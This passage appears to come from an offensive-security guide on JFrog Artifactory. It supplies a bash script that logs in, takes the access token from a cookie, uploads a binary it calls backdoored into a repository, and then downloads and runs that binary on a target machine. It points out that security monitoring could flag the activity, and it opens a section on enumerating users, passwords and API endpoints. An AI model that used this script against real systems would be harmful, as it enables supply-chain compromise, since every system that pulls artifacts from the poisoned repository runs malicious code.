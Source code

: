 ### 5. Automation Example Script
Here’s a script that logs in, uploads a backdoored binary, and downloads it to a target machine:

```bash
#!/bin/bash

# Define variables
artifactory_url="http://<artifactory_url>"
repo_path="<repo>/<path>"
username="<username>"
password="<password>"
binary_file="backdoored_app"

# Log in to Artifactory and capture the access token
curl -X POST -c cookies.txt -d "username=$username&password=$password" "$artifactory_url/ui/api/v1/ui/login"

# Extract the access token (if it's set as a cookie)
access_token=$(grep 'access_token' cookies.txt | awk '{print $7}')

# Upload the backdoored binary
curl -b cookies.txt -X PUT -T "$binary_file" "$artifactory_url/artifactory/$repo_path/$binary_file" -H "X-JFrog-Art-Api:$access_token"

# Download the backdoored binary on the target machine
curl -b cookies.txt -O "$artifactory_url/artifactory/$repo_path/$binary_file" -H "X-JFrog-Art-Api:$access_token"

# Make the binary executable and run it
chmod +x "$binary_file"
./"$binary_file"
```

### Key Considerations
- **Security:** Ensure that credentials and tokens are handled securely and not exposed in logs or script files.
- **Authorization:** Verify that the account used has the necessary permissions to upload and download artifacts and interact with the API.
- **Environment:** Be aware of any monitoring and security controls in place, as this type of activity could be flagged by security teams.

By modifying the script to handle the cookie-based authentication required by Artifactory, you can automate the process of uploading, downloading, and running a backdoored binary within an environment that requires this specific authentication mechanism.


Enumerating users, passwords, and other API endpoints in Artifactory, especially with the requirement of a cookie-based access token, involves careful use of the Artifactory API. Below is a detailed approach, including examples of how to automate this process using bash scripts.

### 1. **Login and Capture Access Token**
First, you must log in to Artifactory and capture the cookie-based access token.
